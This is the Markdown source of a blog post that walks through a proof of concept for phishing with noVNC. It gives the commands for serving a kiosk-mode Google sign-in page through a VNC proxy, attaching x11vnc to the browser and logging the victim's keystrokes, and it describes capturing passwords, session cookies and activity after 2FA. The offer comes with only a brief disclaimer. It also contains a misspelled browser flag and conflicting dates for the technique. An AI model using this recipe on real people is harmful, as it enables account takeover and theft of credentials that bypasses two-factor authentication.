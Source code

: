 ```yaml
---
layout: distill
title: Phishing Attacks with VNC
date: 2024-05-04
description: Exploring the Sophisticated Potential of VNC for Phishing Attacks
tags: phishing-attacks, cyber-threats, information-security, hacking-techniques, malicious-activities
categories: Hacking
thumbnail: assets/img/posts/2/purple-hacker.jpg
toc:
  - name: Introduction
  - name: Background
  - name: Important Disclaimer
  - name: Security Context
  - name: PoC
  - name: Credits
---
```


### Introduction

On February 19, 2022, [Mr. d0x](https://twitter.com/mrd0x) a cybersecurity researcher introduced a method that uses VNC for phishing attacks. I was impressed by the cleverness of this idea.

### Background

VNC, or Virtual Network Computing, is a way to share screens and control another computer remotely. It works by installing a VNC server on the computer you want to control, and a VNC viewer on the device you're using to control it.

Using VNC in a phishing attack is straightforward. We set up a VNC server, share our screen, specifically our browser window, and trick the victim into believing they are controlling their own browser while they are actually connected to our browser, allowing us to intercept any data that passes.

Using a library called [noVNC](https://novnc.com/), we can establish connections to VNC servers through modern web browsers.

This phishing technique has several benefits over traditional phishing methods:

- We can record all keystrokes made by the victim
- We can watch in real-time what the victim is doing on a website
- Regular Two-factor authentication will not protect against this type of attack

---

### Important Disclaimer

The information provided is for educational purposes only. I do not take responsibility for any actions taken based on the information provided.

### Security Context

Please note that the PoC demonstrated in this guide is not safe for "production" use, as it lacking essential security configurations.

---

### Prerequisites

- Linux machine that is fully updated

---

### PoC

First, we launch Firefox or any other browser in kiosk mode with the website we want to phish. For this example, we will use Google accounts.

Kiosk mode is a feature that can restrict user activities and interactions outside the intended scope of operation, this is necessary to prevent the victim from controlling other areas of our attacking machine, which may lead to unwanted access or control.

In the terminal, execute:

```bash
firefox --kisok https://accounts.google.com
```

Now, in a new terminal window, we will run a noVNC server:

```bash
git clone https://github.com/novnc/noVNC
cd noVNC
./utils/novnc_proxy --listen 0.0.0.0:8080 --vnc localhost:5900
```

{% include figure.liquid loading="eager" path="assets/img/posts/2/2.png" class="img-fluid rounded z-depth-1" zoomable=true %}

Now, we need to obtain the ID of the running Firefox process:

1. Run `xwininfo | grep id` in the terminal
2. Click on the Firefox window.
3. In the terminal, the window ID will be displayed.

{% include figure.liquid loading="eager" path="assets/img/posts/2/3.png" class="img-fluid rounded z-depth-1" zoomable=true %}

Once we have obtained the window ID of Firefox using `xwininfo`, we can start a local VNC server by running:

```bash
sudo apt install x11vnc
x11vnc -id <window_id>
```

Once we have started the local VNC server, we can use the `screenkey` tool to view key presses by the victim in real time. It is important to note that `screenkey` will display our own key presses as well.

```bash
sudo apt install screenkey
screenkey
```

Fantastic! Our phishing setup is all set and can now be accessed through the following URL: `http://<ip>:8080/vnc.html?autoconnect=true`

### Victim

Once a victim inputs any information on the page, we have the ability to view it in real-time. This means we can obtain access to their passwords, session cookies, keystrokes, and more. Furthermore, we can continue to monitor their activity even after they have successfully logged into their Gmail account. It's a pretty sneaky and clever trick.

{% include figure.liquid loading="eager" path="assets/img/posts/2/4.png" class="img-fluid rounded z-depth-1" zoomable=true %}

---

### Credits

[Steal Credentials & Bypass 2FA Using noVNC](https://mrd0x.com/bypass-2fa-using-novnc/) (mr.d0x, 2020)
